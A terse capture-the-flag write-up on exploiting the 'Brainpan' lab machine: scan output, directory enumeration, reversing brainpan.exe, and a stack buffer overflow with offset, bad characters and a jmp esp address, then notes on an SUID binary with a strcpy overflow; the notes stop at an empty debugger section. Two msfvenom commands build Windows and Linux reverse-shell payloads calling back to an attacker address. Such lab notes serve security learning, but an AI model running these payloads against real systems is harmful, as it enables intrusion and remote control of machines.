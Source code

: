
10.10.157.116

[[1 - nmap]]
9999/tcp  open  abyss?
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)

[[2 - nc]]
nc 10.10.157.116 9999
found a bof vuln

[[3 - web n gobuster]]
gobuster
http://10.10.157.116:10000/bin                  (Status: 200) [Size: 230]
here we found brainpan.exe

[[4 - brainpan.exe in r2]]
found the password and checked out the program structure

[[5 - brainpan.exe in x32dbg]]
opened it in x32dbg and run a fuzzer script with a non repeating string
offset 524
Checking badchars: We can't find any but \x00
We found a jmp esp address at 0x311712f3

[[6 - Run an exploit for windows]]
Created a payload: `msfvenom --payload 'windows/shell_reverse_tcp' LHOST=10.21.31.111 LPORT=443 --format 'python' --bad-chars '\x00\x0a'`
Ran via python
Is this windows? Very odd quirky shell! Found wine info in the environment vars and ability to run linux executables
The first "hint" was that brainpan.exe is kept running by a bash script!
If we read more carefully we can see: `/usr/bin/wine /home/puck/web/bin/brainpan.exe &` is being run

[[7 - run an exploit for linux]]
Created a payload: `msfvenom --payload 'linux/x86/shell_reverse_tcp' LHOST=10.21.31.111 LPORT=444 --format 'python' --bad-chars '\x00'`
Ran via python and got a nice linux shell :)
We found a root sudo binary but we don't have access to it. We need to be able to access anansi's user directory.
We found a suid binary owned by anansi. Let's download it (I used nc) and check it out.
Downloaded "validate" using nc

[[8 - validate exec in ghidra]]
Ghidra gave us a simple decompiled c code
We can see that is the input string at any position contains an "F" then the loop will exit (meaning this is a bad char!).
If we reach the end of the string, going one character at a time, the full string will be copied using the vulnable strcpy() and the function returns.
The buffer we copy into is 100 characters.
I tested to send an argument with 120 characters and got a segmentation fault as expected. time for edb and python

[[9 - validate exec in edb]]



